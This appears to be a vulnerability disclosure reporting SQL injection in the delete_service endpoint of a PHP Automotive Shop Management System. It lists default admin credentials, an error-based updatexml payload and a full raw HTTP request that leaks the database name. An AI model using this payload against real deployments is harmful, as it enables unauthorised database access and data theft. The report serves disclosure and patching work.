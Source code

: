 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: suikirakira

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File:  /asms/classes/Master.php?f=delete_service

Vulnerability location: /asms/classes/Master.php?f=delete_service, id

dbname =asms_db,length=7

[+] Payload:  id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /asms/classes/Master.php?f=delete_service HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/198047376-2ca3d19e-a740-49b0-a92a-c821337d507b.png)
